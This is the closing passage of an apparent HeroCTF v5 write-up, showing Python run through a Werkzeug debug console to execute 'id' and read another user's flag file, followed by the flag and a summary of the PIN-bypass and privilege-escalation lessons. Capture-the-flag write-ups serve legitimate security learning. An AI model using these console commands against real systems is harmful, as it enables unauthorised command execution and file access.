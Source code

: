 Let's go!!!

**We can now read user `flaskdev`'s flag!**
```python
import os
os.popen('id').read()
os.popen('cat /home/flaskdev/flag.txt').read()
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514205832.png)

- **Flag: `Hero{n0t_s0_Urandom_4ft3r_4ll}`**

## Conclusion

What we've learned:

1. Werkzeug Debug Console PIN Code Bypass With Extra Hardening
2. Horizontal Privilege Escalation Via Werkzeug Debug Console